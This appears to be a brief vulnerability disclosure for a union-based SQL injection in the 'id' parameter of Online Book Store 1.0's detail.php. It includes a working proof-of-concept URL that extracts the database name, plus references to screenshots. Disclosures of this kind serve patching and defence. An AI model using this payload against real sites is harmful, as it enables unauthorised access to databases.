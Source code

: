 # Vulnerability title: Online Book Store 1.0 - 'id' SQL Injection  
# Vendor Homepage: https://www.sourcecodester.com/php/14383/online-book-store.html  
# Software Link: https://www.sourcecodester.com/download-code?nid=14383&title=Online+Book+Store  
# Version: 1.0  
# Tested On：Windows 10  
# Vulnerability description：  
This parameter "id" is vulnerable to Union-Based blind SQL injection in this path "/online%20book%20store/detail.php?id=44" that leads to retrieve all databases.
# Vulnerability recurrence：
1. http://path/Online%20Book%20Store/detail.php?id=-1%20%20union%20select%201,2,3,4,database(),6,7,8,9,10,11
![image](https://github.com/TCSWT/Online-Book-Store/blob/main/001.png)  
2.SQL command  
![image](https://github.com/TCSWT/Online-Book-Store/blob/main/002.png)  
# Vulnerability file  
![image](https://github.com/TCSWT/Online-Book-Store/blob/main/003.png) 
